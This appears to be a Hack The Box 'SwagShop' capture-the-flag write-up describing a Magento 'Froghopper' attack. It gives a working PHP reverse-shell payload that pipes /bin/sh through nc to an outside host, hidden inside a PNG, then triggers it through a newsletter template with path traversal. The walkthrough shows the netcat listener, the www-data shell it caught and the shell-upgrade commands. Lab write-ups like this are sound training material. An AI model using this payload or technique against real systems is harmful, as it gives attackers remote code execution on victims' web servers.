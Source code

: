 ```Ruby
1. Now click on >>> Catalog >>> Manage Categories >>> Now we are going to upload an injected png file.
2. Go to pentest monkey and look up reverse shell cheatsheet.
3. https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
4. Below is the payload that we are going to inject into our png image file.
5. Name it cmd.php.png or foo.php.png
<?php
	system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 443 >/tmp/f");
?>
6. I have injected this code into the png image cmd.php.png using vim. See below
----------------------------------------------------
~/hackthebox/swagshop ᐅ file cmd.php.png
cmd.php.png: PNG image data, 603 x 449, 8-bit/color RGB, non-interlaced
~/hackthebox/swagshop ᐅ strings cmd.php.png | grep -i -C4 system
xqpX
p~07>_
        90H[W
<?php
        system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 443 >/tmp/f");
qqQ3
hi*A
CW<o1
Q2DpX
7. I usually insert a payload into an image file about 1/3 of the way into the file.
8. Now Set up your netcat listener.
9. sudo nc -nlvp 443
10. Now upload the cmd.php.png
11. Name the upload to something like test. >>> click Save Category
12. The category has been saved. Copy the link where it was saved to.
13. http://swagshop.htb/media/catalog/category/cmd.php.png
14. You just need to right click on the link and click copy link.
```
13. **Frog hopper attack continued. The entire step by step exploit of Magento can be found at the link `https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper`**
```Ruby
1. After setting up your listener and uploading the malicious png file. See below.
2. Now click on >>> Newsletter >>> Newsletter Templates >>> Add New Template >>> paste this inside the messge box >>> {{block type ="core/template" template="../../../../../../media/catalog/category/cmd.php.png"}} >>> click Save Template >>> click on the name of payload >>> Click Preview Template
3. SUCCESS, I have a shell.
```
# Got Shell as `www-data`
14. **SUCCESS, I got shell as `www-data`**
```Ruby
1.  ᐅ sudo nc -nlvp 443
[sudo] password for h@x0r:
Listening on 0.0.0.0 443
Connection received on 10.10.10.140 51556
/bin/sh: 0: can not access tty; job control turned off
$ whoami
www-data
2. Lets upgrade the shell and then after that start the enumeration of the box.
3. $ script /dev/null -c bash
Script started, file is /dev/null
www-data@swagshop:/var/www/html$ ^Z
[1]  + 607884 suspended  sudo nc -nlvp 443
~ ᐅ stty raw -echo; fg
[1]  + 607884 continued  sudo nc -nlvp 443
                                          reset xterm
www-data@swagshop:/var/www/html$ export TERM=xterm
www-data@swagshop:/var/www/html$ export TERM=xterm-256color
www-data@swagshop:/var/www/html$ source /etc/skel/.bashrc
```